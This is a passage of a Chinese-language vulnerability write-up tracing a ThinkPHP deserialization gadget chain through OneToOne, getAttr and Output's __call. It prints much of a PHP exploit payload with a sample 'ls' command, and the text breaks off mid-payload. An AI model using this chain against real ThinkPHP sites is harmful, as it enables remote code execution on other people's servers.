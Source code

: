         return $relationModel;
    }

可以看到这些条件都是满足的，然后看getBindAttr，发现在OneToOne类中是可控的

    public function getBindAttr()
    {
        return $this->bindAttr;
    }

所以代码执行到

    $item[$key] = $value ? $value->getAttr($attr) : null;

就可以调用Output类的`__call`方法，调用payload如下

    namespace think{
        use think\console\Output;
        use think\model\relation\HasOne;
        abstract class Model{
            protected $relation;
            protected $append = ["1"];
            protected $error;
            protected $parent;
            public function __construct()
            {
                $this->parent = new Output();
                $this->relation = ["getError"=>"getError"];
                $this->append = ["getError"=>"getError"];
                $this->error = new HasOne();
                $this->data = ["key"=>"ls"]; ;
            }
        }
    }

    namespace think\db{
        use think\console\Output;
        class Query
        {
            protected $model;
            public function __construct()
            {
                $this->model = new Output();
            }
        }
    }

    namespace think\model\relation{
        use think\db\Query;
        use think\model\Relation;
        abstract class OneToOne extends Relation
        {
            protected $query;
            protected $bindAttr = [];
            public function __construct()
            {
            }
        }
